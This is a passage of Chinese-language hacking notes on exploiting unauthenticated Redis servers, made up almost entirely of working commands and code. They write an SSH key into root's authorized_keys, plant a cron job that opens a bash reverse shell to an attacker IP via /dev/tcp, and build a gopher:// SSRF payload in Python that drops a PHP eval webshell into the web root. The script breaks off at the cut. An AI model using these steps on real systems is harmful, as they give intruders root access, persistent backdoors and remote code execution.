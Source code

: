 之后蚁剑直接连就行。

**写ssh公钥**

首先生成公钥，`ssh-keygen -t rsa`

将公钥导入到key.txt，需要前后换行

```sh
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > /root/.ssh/key.txt
redis-cli -h 192.168.43.82 -x set xxx
```



```
redis-cli -h 192.168.43.82
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```

**写计划任务**

本地开nc监听。

```sh
redis-cli -h 192.168.142.153
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.xxx.xx/2333 0>&1\n\n"
config set dir /var/spool/cron/crontabs/
config set dbfilename root
save
```



### 未授权访问SSRF

和上面一样，也是三个。

抄的脚本，

```python
import urllib
protocol="gopher://"
ip="192.168.43.82"
port="6379"
shell="\n\n<?php eval($_POST[\"whoami\"]);?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""    # 此处也可以填入Redis的密码, 在不存在Redis未授权的情况下适用
cmd=["flushall",
"set 1 {}".format(shell.replace(" ","${IFS}")),
"config set dir {}".format(path),
"config set dbfilename {}".format(filename),
"save"
]
if passwd:
cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
CRLF="\r\n"
redis_arr = arr.split(" ")
cmd=""
cmd+="*"+str(len(redis_arr))
for x in redis_arr:
cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
cmd+=CRLF
return cmd

if __name__=="__main__":
```